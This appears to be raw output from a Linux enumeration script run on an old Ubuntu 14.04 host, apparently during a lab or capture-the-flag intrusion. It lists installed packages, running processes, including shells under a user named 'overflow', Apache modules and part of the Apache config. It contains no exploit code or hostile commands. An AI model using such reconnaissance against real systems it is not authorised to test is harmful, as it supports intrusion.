libbind9-90 1:9.9.5.dfsg-3 BIND9 Shared Library used by BIND
libblkid1:i386 2.20.1-5.1ubuntu20.1 block device id library
libboost-iostreams1.54.0:i386 1.54.0-4ubuntu3.1 Boost.Iostreams Library
libbsd0:i386 0.6.0-2ubuntu1 utility functions from BSD systems - shared library
libbz2-1.0:i386 1.0.6-5 high-quality block-sorting file compressor library - runtime
libc-bin 2.19-0ubuntu6.1 Embedded GNU C Library: Binaries
libc-dev-bin 2.19-0ubuntu6.1 Embedded GNU C Library: Development binaries
libc6:i386 2.19-0ubuntu6.1 Embedded GNU C Library: Shared libraries
libc6-dev:i386 2.19-0ubuntu6.1 Embedded GNU C Library: Development Libraries and Header Files
libcap-ng0 0.7.3-1ubuntu2 An alternate POSIX capabilities library
libcap2:i386 1:2.24-0ubuntu2 support for getting/setting POSIX.1e capabilities
libcap2-bin 1:2.24-0ubuntu2 basic utility programs for using capabilities
libcgmanager0:i386 0.24-0ubuntu7 Central cgroup manager daemon (client library)
libck-connector0:i386 0.4.5-3.1ubuntu2 ConsoleKit libraries
libclass-accessor-perl 0.34-1 Perl module that automatically generates accessors
libcloog-isl4:i386 0.18.2-1 Chunky Loop Generator (runtime library)
libcomerr2:i386 1.42.9-3ubuntu1 common error description library
libcurl3-gnutls:i386 7.35.0-1ubuntu2 easy-to-use client-side URL transfer library (GnuTLS flavour)
libcwidget3 0.5.16-3.5ubuntu1 high-level terminal interface library for C++ (runtime files)
libdb5.3:i386 5.3.28-3ubuntu3 Berkeley v5.3 Database Libraries [runtime]
libdbus-1-3:i386 1.6.18-0ubuntu4.1 simple interprocess messaging system (library)
libdbus-glib-1-2:i386 0.100.2-1 simple interprocess messaging system (GLib-based shared library)
libdebconfclient0:i386 0.187ubuntu1 Debian Configuration Management System (C-implementation library)
libdevmapper1.02.1:i386 2:1.02.77-6ubuntu2 Linux Kernel Device Mapper userspace library
libdns100 1:9.9.5.dfsg-3 DNS Shared Library used by BIND
libdrm2:i386 2.4.52-1 Userspace interface to kernel DRM services -- runtime
libdumbnet1 1.12-4build1 A dumb, portable networking library -- shared library
libedit2:i386 3.1-20130712-2 BSD editline and history libraries
libelf1:i386 0.158-0ubuntu5.1 library to read and write ELF files
libept1.4.12:i386 1.0.12 High-level library for managing Debian package information
libestr0 0.1.9-0ubuntu2 Helper functions for handling strings (lib)
libexpat1:i386 2.1.0-4ubuntu1 XML parsing C library - runtime library
libffi6:i386 3.1~rc1+r3.0.13-12 Foreign Function Interface library runtime
libfreetype6:i386 2.5.2-1ubuntu2.2 FreeType 2 font engine, shared library files
libfribidi0:i386 0.19.6-1 Free Implementation of the Unicode BiDi algorithm
libfuse2:i386 2.9.2-4ubuntu4 Filesystem in Userspace (library)
libgcc-4.8-dev:i386 4.8.2-19ubuntu1 GCC support library (development files)
libgcc1:i386 1:4.9-20140406-0ubuntu1 GCC support library
libgck-1-0:i386 3.10.1-1 Glib wrapper library for PKCS#11 - runtime
libgcr-3-common 3.10.1-1 Library for Crypto UI related tasks - common files
libgcr-base-3-1:i386 3.10.1-1 Library for Crypto related tasks
libgcrypt11:i386 1.5.3-2ubuntu4 LGPL Crypto library - runtime library
libgdbm3:i386 1.8.3-12build1 GNU dbm database routines (runtime version)
libgeoip1:i386 1.6.0-1 non-DNS IP-to-country resolver library
libgirepository-1.0-1 1.40.0-1ubuntu0.1 Library for handling GObject introspection data (runtime library)
libglib2.0-0:i386 2.40.0-2 GLib library of C routines
libglib2.0-data 2.40.0-2 Common files for GLib library
libgmp10:i386 2:5.1.3+dfsg-1ubuntu1 Multiprecision arithmetic library
libgnutls-openssl27:i386 2.12.23-12ubuntu2.1 GNU TLS library - OpenSSL wrapper
libgnutls26:i386 2.12.23-12ubuntu2.1 GNU TLS library - runtime library
libgomp1:i386 4.8.2-19ubuntu1 GCC OpenMP (GOMP) support library
libgpg-error0:i386 1.12-0.2ubuntu1 library for common error values and messages in GnuPG components
libgpm2:i386 1.20.4-6.1 General Purpose Mouse - shared library
libgssapi-krb5-2:i386 1.12+dfsg-2ubuntu4 MIT Kerberos runtime libraries - krb5 GSS-API Mechanism
libgssapi3-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1 Heimdal Kerberos - GSSAPI support library
libhcrypto4-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1 Heimdal Kerberos - crypto library
libheimbase1-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1 Heimdal Kerberos - Base library
libheimntlm0-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1 Heimdal Kerberos - NTLM support library
libhx509-5-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1 Heimdal Kerberos - X509 support library
libicu52:i386 52.1-3 International Components for Unicode
libidn11:i386 1.28-1ubuntu2 GNU Libidn library, implementation of IETF IDN specifications
libio-string-perl 1.08-3 Emulate IO::File interface for in-core strings
libisc95 1:9.9.5.dfsg-3 ISC Shared Library used by BIND
libisccc90 1:9.9.5.dfsg-3 Command Channel Library used by BIND
libisccfg90 1:9.9.5.dfsg-3 Config File Handling Library used by BIND
libisl10:i386 0.12.2-1 manipulating sets and relations of integer points bounded by linear constraints
libitm1:i386 4.8.2-19ubuntu1 GNU Transactional Memory Library
libjson-c2:i386 0.11-3ubuntu1.2 JSON manipulation library - shared library
libjson0:i386 0.11-3ubuntu1.2 JSON manipulation library (transitional package)
libk5crypto3:i386 1.12+dfsg-2ubuntu4 MIT Kerberos runtime libraries - Crypto Library
libkeyutils1:i386 1.5.6-1 Linux Key Management Utilities (library)
libklibc 2.0.3-0ubuntu1 minimal libc subset for use with initramfs
libkmod2:i386 15-0ubuntu6 libkmod shared library
libkrb5-26-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1 Heimdal Kerberos - libraries
libkrb5-3:i386 1.12+dfsg-2ubuntu4 MIT Kerberos runtime libraries
libkrb5support0:i386 1.12+dfsg-2ubuntu4 MIT Kerberos runtime libraries - Support library
libldap-2.4-2:i386 2.4.31-1+nmu2ubuntu8 OpenLDAP libraries
liblocale-gettext-perl 1.05-7build3 module using libc functions for internationalization in Perl
liblockfile-bin 1.09-6ubuntu1 support binaries for and cli utilities based on liblockfile
liblockfile1:i386 1.09-6ubuntu1 NFS-safe locking library
liblog-message-simple-perl 0.10-1 simplified interface to Log::Message
liblwres90 1:9.9.5.dfsg-3 Lightweight Resolver Library used by BIND
liblzma5:i386 5.1.1alpha+20120614-2ubuntu2 XZ-format compression library
libmagic1:i386 1:5.14-2ubuntu3.1 File type determination library using "magic" numbers
libmodule-pluggable-perl 5.1-1 module for giving modules the ability to have plugins
libmount1:i386 2.20.1-5.1ubuntu20.1 block device id library
libmpc3:i386 1.0.1-1ubuntu1 multiple precision complex floating-point library
libmpdec2:i386 2.4.0-6 library for decimal floating point arithmetic (runtime library)
libmpfr4:i386 3.1.2-1 multiple precision floating-point computation
libncurses5:i386 5.9+20140118-1ubuntu1 shared libraries for terminal handling
libncursesw5:i386 5.9+20140118-1ubuntu1 shared libraries for terminal handling (wide character support)
libnewt0.52:i386 0.52.15-2ubuntu5 Not Erik's Windowing Toolkit - text mode windowing with slang
libnfnetlink0:i386 1.0.1-2 Netfilter netlink library
libnih-dbus1:i386 1.0.3-4ubuntu25 NIH D-Bus Bindings Library
libnih1:i386 1.0.3-4ubuntu25 NIH Utility Library
libnl-3-200:i386 3.2.21-1 library for dealing with netlink sockets
libnl-genl-3-200:i386 3.2.21-1 library for dealing with netlink sockets - generic netlink
libnuma1:i386 2.0.9~rc5-1ubuntu2 Libraries for controlling NUMA policy
libp11-kit0:i386 0.20.2-2ubuntu2 Library for loading and coordinating access to PKCS#11 modules - runtime
libpam-cap:i386 1:2.24-0ubuntu2 PAM module for implementing capabilities
libpam-modules:i386 1.1.8-1ubuntu2 Pluggable Authentication Modules for PAM
libpam-modules-bin 1.1.8-1ubuntu2 Pluggable Authentication Modules for PAM - helper binaries
libpam-runtime 1.1.8-1ubuntu2 Runtime support for the PAM library
libpam-systemd:i386 204-5ubuntu20.3 system and service manager - PAM module
libpam0g:i386 1.1.8-1ubuntu2 Pluggable Authentication Modules library
libparse-debianchangelog-perl 1.2.0-1ubuntu1 parse Debian changelogs and output them in other formats
libparted0debian1:i386 2.3-19ubuntu1 disk partition manipulator - shared library
libpcap0.8:i386 1.5.3-2 system interface for user-level packet capture
libpci3:i386 1:3.2.1-1ubuntu5 Linux PCI Utilities (shared library)
libpcre3:i386 1:8.31-2ubuntu2 Perl 5 Compatible Regular Expression Library - runtime files
libpipeline1:i386 1.3.0-1 pipeline manipulation library
libplymouth2:i386 0.8.8-0ubuntu17 graphical boot animation and logger - shared libraries
libpng12-0:i386 1.2.50-1ubuntu2 PNG library - runtime
libpod-latex-perl 0.61-1 module to convert Pod data to formatted LaTeX
libpolkit-gobject-1-0:i386 0.105-4ubuntu2 PolicyKit Authorization API
libpopt0:i386 1.16-8ubuntu1 lib for parsing cmdline parameters
libprocps3:i386 1:3.3.9-1ubuntu2 library for accessing process information from /proc
libpython-stdlib:i386 2.7.5-5ubuntu3 interactive high-level object-oriented language (default python version)
libpython2.7:i386 2.7.6-8 Shared Python runtime library (version 2.7)
libpython2.7-minimal:i386 2.7.6-8 Minimal subset of the Python language (version 2.7)
libpython2.7-stdlib:i386 2.7.6-8 Interactive high-level object-oriented language (standard library, version 2.7)
libpython3-stdlib:i386 3.4.0-0ubuntu2 interactive high-level object-oriented language (default python3 version)
libpython3.4-minimal:i386 3.4.0-2ubuntu1 Minimal subset of the Python language (version 3.4)
libpython3.4-stdlib:i386 3.4.0-2ubuntu1 Interactive high-level object-oriented language (standard library, version 3.4)
libquadmath0:i386 4.8.2-19ubuntu1 GCC Quad-Precision Math Library
libreadline6:i386 6.3-4ubuntu2 GNU readline and history libraries, run-time libraries
libroken18-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1 Heimdal Kerberos - roken support library
librtmp0:i386 2.4+20121230.gitdf6c518-1 toolkit for RTMP streams (shared library)
libsasl2-2:i386 2.1.25.dfsg1-17build1 Cyrus SASL - authentication abstraction library
libsasl2-modules:i386 2.1.25.dfsg1-17build1 Cyrus SASL - pluggable authentication modules
libsasl2-modules-db:i386 2.1.25.dfsg1-17build1 Cyrus SASL - pluggable authentication modules (DB)
libselinux1:i386 2.2.2-1ubuntu0.1 SELinux runtime shared libraries
libsemanage-common 2.2-1 Common files for SELinux policy management libraries
libsemanage1:i386 2.2-1 SELinux policy management library
libsepol1:i386 2.2-1 SELinux library for manipulating binary security policies
libsigc++-2.0-0c2a:i386 2.2.10-0.2ubuntu2 type-safe Signal Framework for C++ - runtime
libslang2:i386 2.2.4-15ubuntu1 S-Lang programming library - runtime version
libsqlite3-0:i386 3.8.2-1ubuntu2 SQLite 3 shared library
libss2:i386 1.42.9-3ubuntu1 command-line interface parsing library
libssl1.0.0:i386 1.0.1f-1ubuntu2.5 Secure Sockets Layer toolkit - shared libraries
libstdc++6:i386 4.8.2-19ubuntu1 GNU Standard C++ Library v3
libsub-name-perl 0.05-1build4 module for assigning a new name to referenced sub
libsystemd-daemon0:i386 204-5ubuntu20.3 systemd utility library
libsystemd-login0:i386 204-5ubuntu20.3 systemd login utility library
libtasn1-6:i386 3.4-3ubuntu0.1 Manage ASN.1 structures (runtime)
libterm-ui-perl 0.42-1 Term::ReadLine UI made easy
libtext-charwidth-perl 0.04-7build3 get display widths of characters on the terminal
libtext-iconv-perl 1.7-5build2 converts between character sets in Perl
libtext-soundex-perl 3.4-1build1 implementation of the soundex algorithm
libtext-wrapi18n-perl 0.06-7 internationalized substitute of Text::Wrap
libtimedate-perl 2.3000-1 collection of modules to manipulate date/time information
libtinfo5:i386 5.9+20140118-1ubuntu1 shared low-level terminfo library for terminal handling
libudev1:i386 204-5ubuntu20.3 libudev shared library
libusb-0.1-4:i386 2:0.1.12-23.3ubuntu1 userspace USB programming library
libusb-1.0-0:i386 2:1.0.17-1ubuntu2 userspace USB programming library
libustr-1.0-1:i386 1.0.4-3ubuntu2 Micro string library: shared library
libuuid1:i386 2.20.1-5.1ubuntu20.1 Universally Unique ID library
libwind0-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1 Heimdal Kerberos - stringprep implementation
libwrap0:i386 7.6.q-25 Wietse Venema's TCP wrappers library
libx11-6:i386 2:1.6.2-1ubuntu2 X11 client-side library
libx11-data 2:1.6.2-1ubuntu2 X11 client-side library
libxapian22 1.2.16-2ubuntu1 Search engine library
libxau6:i386 1:1.0.8-1 X11 authorisation library
libxcb1:i386 1.10-2ubuntu1 X C Binding
libxdmcp6:i386 1:1.1.1-1 X11 Display Manager Control Protocol library
libxext6:i386 2:1.3.2-1 X11 miscellaneous extension library
libxml2:i386 2.9.1+dfsg1-3ubuntu4.3 GNOME XML library
libxmuu1:i386 2:1.1.1-1 X11 miscellaneous micro-utility library
libxtables10 1.4.21-1ubuntu1 netfilter xtables library
linux-firmware 1.127.5 Firmware for Linux kernel drivers
linux-generic 3.13.0.32.38 Complete Generic Linux kernel and headers
linux-headers-3.13.0-32 3.13.0-32.57 Header files related to Linux kernel version 3.13.0
linux-headers-3.13.0-32-generic 3.13.0-32.57 Linux kernel headers for version 3.13.0 on 32 bit x86 SMP
linux-headers-generic 3.13.0.32.38 Generic Linux kernel headers
linux-image-3.13.0-32-generic 3.13.0-32.57 Linux kernel image for version 3.13.0 on 32 bit x86 SMP
linux-image-extra-3.13.0-32-generic 3.13.0-32.57 Linux kernel extra modules for version 3.13.0 on 32 bit x86 SMP
linux-image-generic 3.13.0.32.38 Generic Linux kernel image
linux-libc-dev:i386 3.13.0-32.57 Linux Kernel Headers for development
locales 2.13+git20120306-12.1 common files for locale support
lockfile-progs 0.1.17 Programs for locking and unlocking files and mailboxes
login 1:4.1.5.1-1ubuntu9 system login tools
logrotate 3.8.7-1ubuntu1 Log rotation utility
lsb-base 4.1+Debian11ubuntu6 Linux Standard Base 4.1 init script functionality
lsb-release 4.1+Debian11ubuntu6 Linux Standard Base version reporting utility
lshw 02.16-2ubuntu1 information about hardware configuration
lsof 4.86+dfsg-1ubuntu2 Utility to list open files
ltrace 0.7.3-4ubuntu5.1 Tracks runtime library calls in dynamically linked programs
makedev 2.3.1-93ubuntu1 creates device files in /dev
man-db 2.6.7.1-1 on-line manual pager
manpages 3.54-1ubuntu1 Manual pages about using a GNU/Linux system
manpages-dev 3.54-1ubuntu1 Manual pages about using GNU/Linux for development
mawk 1.3.3-17ubuntu2 a pattern scanning and text processing language
mime-support 3.54ubuntu1 MIME files 'mime.types' & 'mailcap', and support programs
mlocate 0.26-1ubuntu1 quickly find files on the filesystem based on their name
module-init-tools 15-0ubuntu6 transitional dummy package (module-init-tools to kmod)
mount 2.20.1-5.1ubuntu20.1 Tools for mounting and manipulating filesystems
mountall 2.53 filesystem mounting tool
mtr-tiny 0.85-2 Full screen ncurses traceroute tool
multiarch-support 2.19-0ubuntu6.1 Transitional package to ensure multiarch compatibility
nano 2.2.6-1ubuntu1 small, friendly text editor inspired by Pico
ncurses-base 5.9+20140118-1ubuntu1 basic terminal type definitions
ncurses-bin 5.9+20140118-1ubuntu1 terminal-related programs and man pages
ncurses-term 5.9+20140118-1ubuntu1 additional terminal type definitions
net-tools 1.60-25ubuntu2 The NET-3 networking toolkit
netbase 5.2 Basic TCP/IP networking system
netcat-openbsd 1.105-7ubuntu1 TCP/IP swiss army knife
ntfs-3g 1:2013.1.13AR.1-2ubuntu2 read/write NTFS driver for FUSE
ntpdate 1:4.2.6.p5+dfsg-3ubuntu2 client for setting system time from NTP servers
open-vm-tools 2:9.4.0-1280544-5ubuntu6.2 Open VMware Tools for virtual machines hosted on VMware (CLI)
openssh-client 1:6.6p1-2ubuntu2 secure shell (SSH) client, for secure access to remote machines
openssh-server 1:6.6p1-2ubuntu2 secure shell (SSH) server, for secure access from remote machines
openssh-sftp-server 1:6.6p1-2ubuntu2 secure shell (SSH) sftp server module, for SFTP access from remote machines
openssl 1.0.1f-1ubuntu2.5 Secure Sockets Layer toolkit - cryptographic utility
os-prober 1.63ubuntu1 utility to detect other OSes on a set of drives
parted 2.3-19ubuntu1 disk partition manipulator
passwd 1:4.1.5.1-1ubuntu9 change and administer password and group data
pciutils 1:3.2.1-1ubuntu5 Linux PCI Utilities
perl 5.18.2-2ubuntu1 Larry Wall's Practical Extraction and Report Language
perl-base 5.18.2-2ubuntu1 minimal Perl system
perl-modules 5.18.2-2ubuntu1 Core Perl modules
plymouth 0.8.8-0ubuntu17 graphical boot animation and logger - main package
plymouth-theme-ubuntu-text 0.8.8-0ubuntu17 graphical boot animation and logger - ubuntu-logo theme
popularity-contest 1.57ubuntu1 Vote for your favourite packages automatically
powermgmt-base 1.31build1 Common utils and configs for power management
ppp 2.4.5-5.1ubuntu2 Point-to-Point Protocol (PPP) - daemon
pppconfig 2.3.19ubuntu1 A text menu based utility for configuring ppp
pppoeconf 1.20ubuntu1 configures PPPoE/ADSL connections
procps 1:3.3.9-1ubuntu2 /proc file system utilities
psmisc 22.20-1ubuntu2 utilities that use the proc file system
python 2.7.5-5ubuntu3 interactive high-level object-oriented language (default version)
python-apt 0.9.3.5 Python interface to libapt-pkg
python-apt-common 0.9.3.5 Python interface to libapt-pkg (locales)
python-chardet 2.0.1-2build2 universal character encoding detector
python-debian 0.1.21+nmu2ubuntu2 Python modules to work with Debian-related data formats
python-minimal 2.7.5-5ubuntu3 minimal subset of the Python language (default version)
python-pyinotify 0.9.4-1build1 simple Linux inotify Python bindings
python-requests 2.2.1-1 elegant and simple HTTP library for Python, built for human beings
python-six 1.5.2-1 Python 2 and 3 compatibility library (Python 2 interface)
python-urllib3 1.7.1-1build1 HTTP library with thread-safe connection pooling for Python
python-xapian 1.2.16-2ubuntu1 Xapian search engine interface for Python
python2.7 2.7.6-8 Interactive high-level object-oriented language (version 2.7)
python2.7-minimal 2.7.6-8 Minimal subset of the Python language (version 2.7)
python3 3.4.0-0ubuntu2 interactive high-level object-oriented language (default python3 version)
python3-apt 0.9.3.5 Python 3 interface to libapt-pkg
python3-commandnotfound 0.3ubuntu12 Python 3 bindings for command-not-found.
python3-dbus 1.2.0-2build2 simple interprocess messaging system (Python 3 interface)
python3-distupgrade 1:0.220.2 manage release upgrades
python3-gdbm:i386 3.4.0-0ubuntu1 GNU dbm database support for Python 3.x
python3-gi 3.12.0-1ubuntu1 Python 3 bindings for gobject-introspection libraries
python3-minimal 3.4.0-0ubuntu2 minimal subset of the Python language (default python3 version)
python3-update-manager 1:0.196.12 python 3.x module for update-manager
python3.4 3.4.0-2ubuntu1 Interactive high-level object-oriented language (version 3.4)
python3.4-minimal 3.4.0-2ubuntu1 Minimal subset of the Python language (version 3.4)
readline-common 6.3-4ubuntu2 GNU readline and history libraries, common files
resolvconf 1.69ubuntu1.1 name server information handler
rsync 3.1.0-2ubuntu0.1 fast, versatile, remote (and local) file-copying tool
rsyslog 7.4.4-1ubuntu2 reliable system and kernel logging daemon
sed 4.2.2-4ubuntu1 The GNU sed stream editor
sensible-utils 0.0.9 Utilities for sensible alternative selection
sgml-base 1.26+nmu4ubuntu1 SGML infrastructure and SGML catalog file support
shared-mime-info 1.2-0ubuntu3 FreeDesktop.org shared MIME database and spec
ssh 1:6.6p1-2ubuntu2 secure shell client and server (metapackage)
ssh-import-id 3.21-0ubuntu1 securely retrieve an SSH public key and install it locally
ssl-cert 1.0.33 simple debconf wrapper for OpenSSL
strace 4.8-1ubuntu5 A system call tracer
sudo 1.8.9p5-1ubuntu1 Provide limited super user privileges to specific users
systemd-services 204-5ubuntu20.3 systemd runtime services
systemd-shim 6-2bzr1 shim for systemd
sysv-rc 2.88dsf-41ubuntu6 System-V-like runlevel change mechanism
sysvinit-utils 2.88dsf-41ubuntu6 System-V-like utilities
tar 1.27.1-1 GNU version of the tar archiving utility
tasksel 2.88ubuntu15 Tool for selecting tasks for installation on Debian systems
tasksel-data 2.88ubuntu15 Official tasks used for installation of Debian systems
tcpd 7.6.q-25 Wietse Venema's TCP wrapper utilities
tcpdump 4.5.1-2ubuntu1 command-line network traffic analyzer
telnet 0.17-36build2 The telnet client
time 1.7-24 GNU time program for measuring CPU resource usage
tzdata 2014e-0ubuntu0.14.04 time zone and daylight-saving time data
ubuntu-keyring 2012.05.19 GnuPG keys of the Ubuntu archive
ubuntu-minimal 1.325 Minimal core of Ubuntu
ubuntu-release-upgrader-core 1:0.220.2 manage release upgrades
ubuntu-standard 1.325 The Ubuntu standard system
ucf 3.0027+nmu1 Update Configuration File(s): preserve user changes to config files
udev 204-5ubuntu20.3 /dev/ and hotplug management daemon
ufw 0.34~rc-0ubuntu2 program for managing a Netfilter firewall
update-manager-core 1:0.196.12 manage release upgrades
upstart 1.12.1-0ubuntu4.2 event-based init daemon
ureadahead 0.100.0-16 Read required files in advance
usbutils 1:007-2ubuntu1 Linux USB utilities
util-linux 2.20.1-5.1ubuntu20.1 Miscellaneous system utilities
uuid-runtime 2.20.1-5.1ubuntu20.1 runtime components for the Universally Unique ID library
vim 2:7.4.052-1ubuntu3 Vi IMproved - enhanced vi editor
vim-common 2:7.4.052-1ubuntu3 Vi IMproved - Common files
vim-runtime 2:7.4.052-1ubuntu3 Vi IMproved - Runtime files
vim-tiny 2:7.4.052-1ubuntu3 Vi IMproved - enhanced vi editor - compact version
vsftpd 3.0.2-1ubuntu2.14.04.1 lightweight, efficient FTP server written for security
wamerican 7.1-1 American English dictionary words for /usr/share/dict
wbritish 7.1-1 British English dictionary words for /usr/share/dict
wget 1.15-1ubuntu1 retrieves files from the web
whiptail 0.52.15-2ubuntu5 Displays user-friendly dialog boxes from shell scripts
whois 5.1.1 intelligent WHOIS client
wireless-regdb 2013.02.13-1ubuntu1 wireless regulatory database
xauth 1:1.0.7-1ubuntu1 X authentication utility
xkb-data 2.10.1-1ubuntu1 X Keyboard Extension (XKB) configuration data
xml-core 0.13+nmu2 XML infrastructure and XML catalog file support
xz-utils 5.1.1alpha+20120614-2ubuntu2 XZ-format compression utilities
zerofree 1.0.2-1ubuntu1 zero free blocks from ext2, ext3 and ext4 file-systems
zlib1g:i386 1:1.2.8.dfsg-1ubuntu1 compression library - runtime
[+] Current processes
USER PID START TIME COMMAND
root 1 10:12 0:01 /sbin/init
root 2 10:12 0:00 [kthreadd]
root 3 10:12 0:01 [ksoftirqd/0]
root 5 10:12 0:00 [kworker/0:0H]
root 7 10:12 0:01 [rcu_sched]
root 8 10:12 0:00 [rcu_bh]
root 9 10:12 0:00 [migration/0]
root 10 10:12 0:01 [watchdog/0]
root 11 10:12 0:00 [khelper]
root 12 10:12 0:00 [kdevtmpfs]
root 13 10:12 0:00 [netns]
root 14 10:12 0:00 [writeback]
root 15 10:12 0:00 [kintegrityd]
root 16 10:12 0:00 [bioset]
root 18 10:12 0:00 [kblockd]
root 19 10:12 0:00 [ata_sff]
root 20 10:12 0:01 [khubd]
root 21 10:12 0:00 [md]
root 22 10:12 0:00 [devfreq_wq]
root 23 10:12 3:06 [kworker/0:1]
root 25 10:12 0:00 [khungtaskd]
root 26 10:12 0:00 [kswapd0]
root 27 10:12 0:00 [ksmd]
root 28 10:12 0:00 [khugepaged]
root 29 10:12 0:00 [fsnotify_mark]
root 30 10:12 0:00 [ecryptfs-kthrea]
root 31 10:12 0:00 [crypto]
root 43 10:12 0:00 [kthrotld]
root 47 10:12 0:00 [scsi_eh_0]
root 48 10:12 0:00 [scsi_eh_1]
root 51 10:12 0:00 [kworker/0:2]
root 71 10:12 0:00 [deferwq]
root 72 10:12 0:00 [charger_manager]
root 124 10:12 0:00 [kpsmoused]
root 126 10:12 0:00 [scsi_eh_2]
root 136 10:12 0:00 [jbd2/sda1-8]
root 137 10:12 0:00 [ext4-rsv-conver]
root 265 10:12 0:00 upstart-udev-bridge
root 270 10:12 0:00 /lib/systemd/systemd-udevd
message+ 336 10:12 0:00 dbus-daemon
root 367 10:12 0:00 /lib/systemd/systemd-logind
syslog 369 10:12 0:00 rsyslogd
root 392 10:12 0:00 upstart-file-bridge
root 409 10:12 0:00 dhclient
root 473 10:12 0:00 /usr/sbin/vsftpd
root 625 10:12 0:00 upstart-socket-bridge
root 667 10:12 0:00 /sbin/getty
root 670 10:12 0:00 /sbin/getty
root 673 10:12 0:00 /sbin/getty
root 674 10:12 0:00 /sbin/getty
root 676 10:12 0:00 /sbin/getty
root 694 10:12 0:00 /usr/sbin/sshd
root 697 10:12 0:00 cron
root 814 10:12 0:06 /usr/sbin/apache2
www-data 816 10:12 0:40 /usr/sbin/apache2
www-data 817 10:12 0:40 /usr/sbin/apache2
root 954 10:12 0:10 /usr/bin/python
root 1009 10:12 0:00 /sbin/getty
root 1020 10:14 0:00 [kauditd]
root 1451 11:16 0:00 [kworker/u3:1]
root 1576 11:24 0:15 [kworker/u2:0]
root 1767 12:00 0:05 [kworker/u2:1]
root 1981 12:44 0:00 [kworker/u3:2]
root 2548 14:07 0:00 sshd:
overflow 2566 14:07 0:00 sshd:
overflow 2567 14:07 0:00 -sh
overflow 2569 14:07 0:00 python
overflow 2570 14:07 0:00 /bin/bash
overflow 2583 14:08 0:00 python
overflow 2853 14:08 0:00 /bin/sh
overflow 2854 14:08 0:00 ps
overflow 2855 14:08 0:00 awk
[+] Apache Version and Modules
Server version: Apache/2.4.7 (Ubuntu)
Server built: Jul 22 2014 14:36:39
Loaded Modules:
core_module (static)
so_module (static)
watchdog_module (static)
http_module (static)
log_config_module (static)
logio_module (static)
version_module (static)
unixd_module (static)
access_compat_module (shared)
alias_module (shared)
auth_basic_module (shared)
authn_core_module (shared)
authn_file_module (shared)
authz_core_module (shared)
authz_host_module (shared)
authz_user_module (shared)
autoindex_module (shared)
deflate_module (shared)
dir_module (shared)
env_module (shared)
filter_module (shared)
mime_module (shared)
mpm_event_module (shared)
negotiation_module (shared)
setenvif_module (shared)
status_module (shared)
Compiled in modules:
core.c
mod_so.c
mod_watchdog.c
http_core.c
mod_log_config.c
mod_logio.c
mod_version.c
mod_unixd.c
[+] Apache Config File
# This is the main Apache server configuration file. It contains the
# configuration directives that give the server its instructions.
# See http://httpd.apache.org/docs/2.4/ for detailed information about
# the directives and /usr/share/doc/apache2/README.Debian about Debian specific
# hints.
#
#
# Summary of how the Apache 2 configuration works in Debian:
# The Apache 2 web server configuration in Debian is quite different to
# upstream's suggested way to configure the web server. This is because Debian's
# default Apache2 installation attempts to make adding and removing modules,
# virtual hosts, and extra configuration directives as flexible as possible, in
# order to make automating the changes and administering the server as easy as
# possible.
# It is split into several files forming the configuration hierarchy outlined
# below, all located in the /etc/apache2/ directory:
#
# /etc/apache2/
# |-- apache2.conf
# | `-- ports.conf
# |-- mods-enabled
# | |-- *.load
# | `-- *.conf
# |-- conf-enabled
# | `-- *.conf
# `-- sites-enabled
# `-- *.conf
#
#
# * apache2.conf is the main configuration file (this file). It puts the pieces
# together by including all remaining configuration files when starting up the
# web server.
#
# * ports.conf is always included from the main configuration file. It is
# supposed to determine listening ports for incoming connections which can be
# customized anytime.
#
# * Configuration files in the mods-enabled/, conf-enabled/ and sites-enabled/
# directories contain particular configuration snippets which manage modules,
# global configuration fragments, or virtual host configurations,
# respectively.
#
# They are activated by symlinking available configuration files from their
# respective *-available/ counterparts. These should be managed by using our
# helpers a2enmod/a2dismod, a2ensite/a2dissite and a2enconf/a2disconf. See
# their respective man pages for detailed information.
#
# * The binary is called apache2. Due to the use of environment variables, in
# the default configuration, apache2 needs to be started/stopped with
# /etc/init.d/apache2 or apache2ctl. Calling /usr/bin/apache2 directly will not
# work with the default configuration.
# Global configuration
#
#
# ServerRoot: The top of the directory tree under which the server's
# configuration, error, and log files are kept.
#
# NOTE! If you intend to place this on an NFS (or otherwise network)
# mounted filesystem then please read the Mutex documentation (available
# at );
# you will save yourself a lot of trouble.
#
# Do NOT add a slash at the end of the directory path.
#
#ServerRoot "/etc/apache2"
#
# The accept serialization lock file MUST BE STORED ON A LOCAL DISK.
#
Mutex file:${APACHE_LOCK_DIR} default
#
# PidFile: The file in which the server should record its process
# identification number when it starts.
# This needs to be set in /etc/apache2/envvars
#
PidFile ${APACHE_PID_FILE}
#
# Timeout: The number of seconds before receives and sends time out.
#
Timeout 300
#
# KeepAlive: Whether or not to allow persistent connections (more than
# one request per connection). Set to "Off" to deactivate.
#
KeepAlive On
#
# MaxKeepAliveRequests: The maximum number of requests to allow
# during a persistent connection. Set to 0 to allow an unlimited amount.
# We recommend you leave this number high, for maximum performance.
#
MaxKeepAliveRequests 100
#
# KeepAliveTimeout: Number of seconds to wait for the next request from the
# same client on the same connection.
#
KeepAliveTimeout 5
# These need to be set in /etc/apache2/envvars
User ${APACHE_RUN_USER}
Group ${APACHE_RUN_GROUP}
#
# HostnameLookups: Log the names of clients or just their IP addresses
# e.g., www.apache.org (on) or 204.62.129.132 (off).
# The default is off because it'd be overall better for the net if people
# had to knowingly turn this feature on, since enabling it means that
# each client request will result in AT LEAST one lookup request to the
# nameserver.
#
HostnameLookups Off
# ErrorLog: The location of the error log file.
# If you do not specify an ErrorLog directive within a
# container, error messages relating to that virtual host will be
# logged here. If you *do* define an error logfile for a
# container, that host's errors will be logged there and not here.
#
ErrorLog ${APACHE_LOG_DIR}/error.log
#
# LogLevel: Control the severity of messages logged to the error_log.
# Available values: trace8, ..., trace1, debug, info, notice, warn,
# error, crit, alert, emerg.
# It is also possible to configure the log level for particular modules, e.g.
# "LogLevel info ssl:warn"
#
LogLevel warn
# Include module configuration:
IncludeOptional mods-enabled/*.load
IncludeOptional mods-enabled/*.conf
# Include list of ports to listen on
Include ports.conf
# Sets the default security model of the Apache2 HTTPD server. It does
# not allow access to the root filesystem outside of /usr/share and /var/www.
# The former is used by web applications packaged in Debian,
# the latter may be used for local directories served by the web server. If
# your system is serving content from a sub-directory in /srv you must allow
